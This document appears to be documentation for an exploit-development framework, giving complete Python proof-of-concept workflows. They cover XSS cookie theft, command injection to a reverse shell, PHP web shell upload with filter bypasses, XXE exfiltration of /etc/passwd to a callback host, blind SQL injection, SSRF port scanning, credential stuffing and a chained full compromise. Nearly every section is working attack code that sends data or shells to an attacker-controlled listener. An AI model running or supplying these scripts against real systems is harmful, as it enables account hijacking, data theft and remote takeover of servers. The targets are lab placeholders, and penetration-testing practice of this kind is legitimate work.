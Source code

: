 Workflows
=========

End-to-end POC workflows for common exploitation scenarios.

XSS Cookie Stealer
------------------

Complete workflow for stealing cookies via XSS.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string

   def run(args):
       """Steal admin cookie via stored XSS"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # Send payload to vulnerable endpoint
       out.status("Injecting XSS payload...")
       r = requests.post(
           f"{target}/comment",
           data={"content": payload},
           allow_redirects=False
       )

       if r.status_code == 302:
           out.success("Payload injected successfully")

       # Wait for admin to visit and trigger callback
       out.status("Waiting for admin to view comment...")
       cookie_str = get_cookie(timeout=60)

       if not cookie_str:
           out.error("No callback received - admin may not have visited")
           return False

       out.success(f"Cookie captured: {cookie_str}")

       # Parse and use stolen cookie
       cookies = parse_cookie_string(cookie_str)

       # Access admin panel
       out.status("Accessing admin panel with stolen cookie...")
       r = requests.get(f"{target}/admin", cookies=cookies)

       if "Admin Panel" in r.text or r.status_code == 200:
           out.success("Successfully accessed admin panel!")
           return True
       else:
           out.error("Cookie didn't grant admin access")
           return False

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5

RCE to Interactive Shell
-------------------------

From command injection to full PTY shell.

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.reverse_shells import python_oneliner, bash_shell
   from your_project.utils.shell_catcher import auto_shell

   def run(args):
       """Exploit RCE and get interactive shell"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate shell payload
       cmd = python_oneliner(lhost, lport)
       out.info(f"Payload: {cmd}")

       # Catch shell automatically
       with auto_shell(lport) as catcher:
           # Trigger RCE
           out.status("Triggering RCE...")
           r = requests.post(
               f"{target}/api/run",
               json={"command": cmd},
               timeout=5
           )

           # Wait for shell
           out.status(f"Waiting for shell on port {lport}...")

           # Automatically upgrades to PTY and gives interactive shell
           if catcher.shell_caught:
               out.success("Shell caught!")
               catcher.stabilize()  # Upgrade to PTY
               out.info("Shell stabilized. Entering interactive mode...")
               catcher.interact()   # Full interactive shell!
           else:
               out.error("No shell received")

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444

File Upload to RCE
------------------

Upload malicious file and get shell.

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.file_upload import FileUploader
   from your_project.utils.reverse_shells import php_shell
   from your_project.utils.shell_catcher import quick_catch

   def run(args):
       """Upload PHP shell and execute it"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate PHP reverse shell
       shell_path = php_shell(lhost, lport)
       out.info(f"Generated shell at: {shell_path}")

       # Read shell content
       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       # Upload with bypass techniques
       out.status("Uploading shell...")
       uploader = FileUploader(f"{target}/upload")

       result = uploader.upload_with_bypass(
           "shell.php",
           shell_code,
           techniques=["double_extension", "null_byte"]
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Trigger execution and catch shell
       def trigger():
           out.status("Triggering shell execution...")
           requests.get(f"{target}/uploads/shell.php", timeout=2)

       quick_catch(lport, trigger_func=trigger)

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5 --lport 4444

XXE Data Exfiltration
---------------------

Read files via XXE.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.xxe import quick_test
   from your_project.utils.server_hooks import get_exfil

   def run(args):
       """Exfiltrate /etc/passwd via XXE"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Generate XXE payload (also creates DTD file)
       payload = quick_test(f"http://{lhost}:{lport}", "/etc/passwd")
       out.info("XXE payload generated")

       # Send XXE payload
       out.status("Sending XXE payload...")
       r = requests.post(
           f"{target}/api/parse",
           data=payload,
           headers={"Content-Type": "application/xml"}
       )

       # Wait for exfil callback
       out.status("Waiting for data exfiltration...")
       data = get_exfil(timeout=30)

       if data:
           out.success("Data exfiltrated!")
           out.raw("\\n" + "="*50)
           out.raw(data)
           out.raw("="*50 + "\\n")
           return data
       else:
           out.error("No data received")
           return None

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5

Blind SQL Injection
-------------------

Extract data from blind SQLi.

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   import string
   from your_project.utils.output import out
   from your_project.utils.timing import time_request

   def run(args):
       """Extract database name via boolean-based blind SQLi"""

       target = args.target

       def check_condition(condition):
           """Returns True if condition is true"""
           r = requests.get(
               f"{target}/api/user",
               params={"id": f"1' AND {condition}--"}
           )
           return "Welcome" in r.text

       # Extract database name
       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               condition = f"SUBSTRING(DATABASE(),{pos},1)='{char}'"

               if check_condition(condition):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

   def run_time_based(args):
       """Extract data via time-based blind SQLi"""

       target = args.target

       def check_char(pos, char):
           """Returns True if char at position matches"""
           payload = f"1' AND IF(SUBSTRING(DATABASE(),{pos},1)='{char}',SLEEP(3),0)--"

           def attempt():
               return requests.get(f"{target}/api/user", params={"id": payload}, timeout=10)

           duration = time_request(attempt, payload)
           return duration > 3

       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name (time-based)...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               if check_char(pos, char):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

**Run:**

.. code-block:: bash

   # Boolean-based
   uv run your_project --target http://target.local

   # Time-based (if boolean-based doesn't work)
   uv run your_project --target http://target.local --time-based

SSRF to Internal Access
------------------------

Exploit SSRF to access internal services.

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.batch_request import batch_request_sync, generate_param_payloads
   import httpx

   def run(args):
       """Use SSRF to scan internal network"""

       target = args.target

       # Test SSRF vulnerability
       out.info("Testing SSRF...")
       test_url = "http://127.0.0.1:80"
       r = requests.get(f"{target}/fetch", params={"url": test_url})

       if r.status_code == 200:
           out.success("SSRF confirmed!")
       else:
           out.error("SSRF test failed")
           return

       # Scan internal ports
       out.status("Scanning internal ports...")
       client = httpx.Client()

       base = client.build_request("GET", f"{target}/fetch")

       # Common internal service ports
       ports = [22, 80, 443, 3306, 5432, 6379, 8080, 9200]
       internal_urls = [f"http://127.0.0.1:{port}" for port in ports]

       results = batch_request_sync(
           base,
           payloads=generate_param_payloads("url", internal_urls),
           validate=lambda r: r.status_code == 200 and len(r.text) > 100,
           concurrency=5
       )

       # Show open ports
       out.info("\\nOpen internal ports:")
       for result in results:
           if result.matched:
               port = result.payload['params']['url'].split(':')[-1]
               out.success(f"Port {port} is open")

       # Try to access internal admin panel
       out.status("\\nTrying internal admin panel...")
       r = requests.get(
           f"{target}/fetch",
           params={"url": "http://127.0.0.1:8080/admin"}
       )

       if "admin" in r.text.lower():
           out.success("Accessed internal admin panel!")
           out.raw(r.text[:500])

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local

Credential Stuffing
-------------------

Test multiple credentials efficiently.

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import httpx
   from your_project.utils.output import out
   from your_project.utils.batch_request import batch_request_sync, generate_json_payloads

   def run(args):
       """Test common credential pairs"""

       target = args.target

       # Common credentials
       creds = [
           {"username": "admin", "password": "admin"},
           {"username": "admin", "password": "password"},
           {"username": "admin", "password": "admin123"},
           {"username": "root", "password": "root"},
           {"username": "administrator", "password": "administrator"},
           {"username": "test", "password": "test"},
       ]

       out.info(f"Testing {len(creds)} credential pairs...")

       client = httpx.Client()
       base = client.build_request(
           "POST",
           f"{target}/api/login",
           json={"username": "", "password": ""}
       )

       # Test all credentials
       results = batch_request_sync(
           base,
           payloads=[{"json": cred} for cred in creds],
           validate=lambda r: r.status_code == 200 and "token" in r.text,
           concurrency=3  # Be gentle with login endpoints
       )

       # Show valid credentials
       for result in results:
           if result.matched:
               creds = result.payload['json']
               out.success(f"Valid creds: {creds['username']}:{creds['password']}")

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local

Complete Exploitation Workflow
-------------------------------

Full exploitation chain.

**Setup:**

Start the HTTP callback server first:

.. code-block:: bash

   uv run your_project --server

**Exploit Code:**

.. code-block:: python

   # src/your_project/exploit.py
   import requests
   from your_project.utils.output import out
   from your_project.utils.html_parser import HTMLParser
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string
   from your_project.utils.file_upload import FileUploader
   from your_project.utils.reverse_shells import php_shell
   from your_project.utils.shell_catcher import auto_shell

   def run(args):
       """Complete exploitation chain"""

       target = args.target
       lhost = args.lhost
       lport = args.lport

       # Stage 1: Reconnaissance
       out.info("Stage 1: Reconnaissance")
       r = requests.get(target)
       parser = HTMLParser.from_response(r)

       # Find forms
       forms = parser.find_forms()
       out.success(f"Found {len(forms)} forms")

       # Find upload endpoint
       upload_form = None
       for form in forms:
           if 'upload' in form.get('action', '').lower():
               upload_form = form
               break

       if not upload_form:
           out.error("No upload form found")
           return

       # Stage 2: XSS to steal admin cookie
       out.info("\\nStage 2: XSS Cookie Theft")
       payload = cookie_stealer(f"http://{lhost}:{lport}")

       requests.post(f"{target}/comment", data={"msg": payload})
       out.status("Waiting for admin...")

       cookie_str = get_cookie(timeout=60)
       if not cookie_str:
           out.error("No cookie received")
           return

       out.success("Cookie captured!")
       cookies = parse_cookie_string(cookie_str)

       # Stage 3: File upload with stolen session
       out.info("\\nStage 3: File Upload")
       shell_path = php_shell(lhost, 4444)

       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       uploader = FileUploader(f"{target}/upload")
       result = uploader.upload(
           "shell.php",
           shell_code,
           cookies=cookies
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Stage 4: Get interactive shell
       out.info("\\nStage 4: Shell Execution")

       with auto_shell(4444) as catcher:
           requests.get(f"{target}/uploads/shell.php", timeout=2)

           if catcher.shell_caught:
               out.success("Root access achieved!")
               catcher.stabilize()
               catcher.interact()

**Run:**

.. code-block:: bash

   uv run your_project --target http://target.local --lhost 10.10.14.5

